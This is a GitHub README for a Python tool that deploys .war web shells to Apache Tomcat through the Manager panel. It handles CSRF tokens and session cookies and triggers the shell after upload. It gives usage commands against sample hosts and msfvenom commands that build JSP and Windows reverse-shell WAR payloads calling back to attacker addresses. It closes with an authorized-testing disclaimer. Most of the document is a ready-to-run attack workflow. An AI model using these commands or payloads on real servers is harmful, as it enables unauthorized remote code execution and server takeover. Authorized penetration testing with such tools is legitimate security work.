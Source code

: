 ![banner](img/my_script_shell.png)


# ☢️ Tomcat WAR File Uploader

A Python tool to upload `.war` web shells to Apache Tomcat via the Manager interface (`/manager/html`). Automatically handles CSRF protection and session cookies.
(Tested on Apache Tomcat/9.0.53)

## 🔧 Features

- Uploads WAR files to a Tomcat server
- Automatically extracts `JSESSIONID` and `CSRF_NONCE`
- Validates credentials before upload
- Triggers the uploaded shell if deployment succeeds

---

## 📦 Requirements

- Python 3.x
- `requests`
- `beautifulsoup4`

Install dependencies:

```bash
pip install -r requirements.txt
```

Or manually:

```bash
pip install requests beautifulsoup4
```

---

## 🚀 Usage

```bash
python3 tomcat_war_uploader.py --url http://<target>:8080 --username <user> --password <pass> --war-file shell.war
```

### Arguments

| Argument                  | Description                                                            |
|---------------------------|------------------------------------------------------------------------|
| `--url`                   | **(Required)** Base URL of the Tomcat server (e.g., `http://10.10.10.10:8080`) |
| `--username`              | **(Required)** Tomcat Manager username                                |
| `--password`              | **(Required)** Tomcat Manager password                                |
| `--war-file`              | WAR file to upload (default: `plugin.war`)                            |
| `--manager-panel`         | Manager panel path (default: `/manager/html`)                         |
| `--validate-credentials`  | Only validate credentials and exit (no upload)                        |

---

## 🧪 Examples

### Upload a WAR file

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --war-file shell.war
```

### Validate credentials only

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --validate-credentials
```
---

## ✅ Output

```text
[+] Parsed CSRF token: A1B2C3D4E5F6...
[+] War file uploaded successfully
[+] Shell triggered. Check your listener
```

---
---

## 🎯 Generating a Reverse Shell with `msfvenom`

You can generate a `.war` file payload using `msfvenom` for either Linux (JSP-based) or Windows (EXE wrapped as `.war`):

### 🔹 For Linux (JSP reverse shell):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.122 LPORT=443 -f war -o revshell.war
```

### 🔹 For Windows (EXE reverse shell wrapped in WAR):

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > revshell.war
```

> ⚠️ For Windows payloads, make sure the target Tomcat server supports deploying `.exe` via WAR.

---


## ⚠️ Disclaimer

This script is intended for **educational and authorized security testing purposes only**. Do **not** use it against systems without explicit permission.
